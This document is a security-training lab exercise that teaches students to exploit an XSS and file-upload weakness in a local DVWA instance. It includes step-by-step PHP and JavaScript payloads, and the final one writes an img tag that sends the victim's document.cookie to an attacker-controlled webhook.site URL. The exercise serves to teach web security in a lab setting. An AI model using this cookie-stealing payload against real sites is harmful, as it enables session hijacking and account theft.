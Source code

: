 # Cookie Phishing
Welcome!

In this exercise, you have been tasked with assessing a site for XSS vulnerabilities. As part of your task, you will need to show _how_ the website is vulnerable, and how a malicious actor could take advantage of the vulnerability.

In particular, you will attempt to exploit an XSS vulnerability to steal a user's cookies by:
- Creating a "webhook", which will serve as a malicious server to receive user/victims cookies.
- Building an `img` tag that sends an HTTP request to your webhook.
- Updating the `img` tag to include the user's cookies in a query string.
- Injecting a `script` tag that dumps the image tag to the page.

## Prework

Before we begin, we will need to set a cookie for us to try and steal. As the victim you will need to open your DVWA instance that is installed onto your VM. Right click on the page and click `Inspect Element` from the drop down menu. Click on `Console`, type the following and press **Enter**:

`document.cookie = "test: password;"`

This will set the cookie for us to steal. If you have visited other websites that have saved cookies onto your VM, this activity will steal those cookies instead.

## Instructions

In order to steal the cookie information, complete the following:

- Navigate to <https://webhook.site/>. Copy the unique URL provided on the page. This is the URL you'll send requests containing user cookies to.

- Navigate to your DVWA instance.

- Create a new named `exploit.php` that includes the PHP below:

```
<?php
$html = <<<EOF
<img src ="<Your Webhook URL>" />
EOF;

echo $html;
```

- Save the file.

- Navigate to **File Upload** tab on the left hand of the DVWA instance. Upload your exploit.php file. Activate your malicious script by going to `localhost/hackable/uploads/exploit.php`. You should see a broken image on the page.

- Return to your Webhook. You should see a new request appear on the left sidebar. This was sent by your image tag, so you know that it's successfully communicating with your "malicious" server.

- Update your file as follows:

```
<?php
$html = <<<EOF
<img src ="<Your Webhook URL>?cookie="+(document.cookie||"no cookie!") />
EOF;

echo $html;
```

- Save the file, and use it to re-upload it to DVWA. Navigate back to `localhost/hackable/uploads/exploit.php`. Your Webhook should receive another request. but _not_ include any cookies (yet!). This is just to verify that your update didn't break the image tag.

- Finally, edit your Gist again. Update it as follows. This will cause the XSS to actually include the user's cookie in the request, or let you know that they don't have anything to steal.

**Note** Make sure to remove the `<>` symbols around your webhook URL

```
<?php
$html = <<<EOF
<script>
document.write('<img src ="<http://YOUR_WEBHOOK_URL>?cookie=' + document.cookie + '"/>')
</script>
EOF;

echo $html;
```

- Save your file, and re-upload it one last time. Navigate back to `localhost/hackable/uploads/exploit.php` to activate it.

- Check your Webhook to ensure you're receiving requests.
  - What do you notice as your `cookie` value?
  - **Note**: If things aren't working as expected, triple-check your quote marks!

- When you verify that you're receiving requests, drop the link in Slack, and watch your logs.
